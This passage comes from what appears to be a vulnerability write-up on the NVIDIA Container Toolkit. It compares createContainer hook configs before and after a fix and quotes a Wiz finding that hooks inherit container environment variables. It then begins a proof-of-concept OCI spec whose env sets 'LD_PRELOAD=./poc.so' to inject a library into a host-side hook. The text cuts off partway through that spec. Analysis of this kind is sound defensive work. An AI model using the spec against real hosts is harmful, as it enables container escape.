 And this is how it would look after:

```
    "createContainer": [
      {
        "path": "/usr/bin/nvidia-ctk",
        "args": [
          "nvidia-ctk",
          "hook",
          "enable-cuda-compat",
          "--host-driver-version=575.64.03"
        ],
        "env": [
          "NVIDIA_CTK_DEBUG=false"
        ]
      },
      {
        "path": "/usr/bin/nvidia-ctk",
        "args": [
          "nvidia-ctk",
          "hook",
          "update-ldcache"
        ],
        "env": [
          "NVIDIA_CTK_DEBUG=false"
        ]
      }
```

With the fix, the createContainer have an explicit "env" section, which is not present without the fix.

This was an interesting finding, and confirmed what the Wiz post said:

> createContainer hooks have a critical property: they inherit environment variables from the container image unless explicitly configured not to

So to summarize, a spec like this:

```
{
  "ociVersion": "1.2.1",
  "process": {
    "user": {
      "uid": 0,
      "gid": 0,
      "additionalGids": [0, 10]
    },
    "args": [
      "sh"
    ],
    "env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "LD_PRELOAD=./poc.so",
      "NVIDIA_VISIBLE_DEVICES=all"
    ],
    "cwd": "/",
    "capabilities": {
      "bounding": [
        "CAP_CHOWN", "CAP_DAC_OVERRIDE", "CAP_FSETID", "CAP_FOWNER", "CAP_MKNOD", "CAP_NET_RAW",
        "CAP_SETGID", "CAP_SETUID", "CAP_SETFCAP", "CAP_SETPCAP", "CAP_NET_BIND_SERVICE",
        "CAP_SYS_CHROOT", "CAP_KILL", "CAP_AUDIT_WRITE"
      ],
      "effective": [
        "CAP_CHOWN", "CAP_DAC_OVERRIDE", "CAP_FSETID", "CAP_FOWNER", "CAP_MKNOD", "CAP_NET_RAW",
        "CAP_SETGID", "CAP_SETUID", "CAP_SETFCAP", "CAP_SETPCAP", "CAP_NET_BIND_SERVICE",
        "CAP_SYS_CHROOT", "CAP_KILL", "CAP_AUDIT_WRITE"
```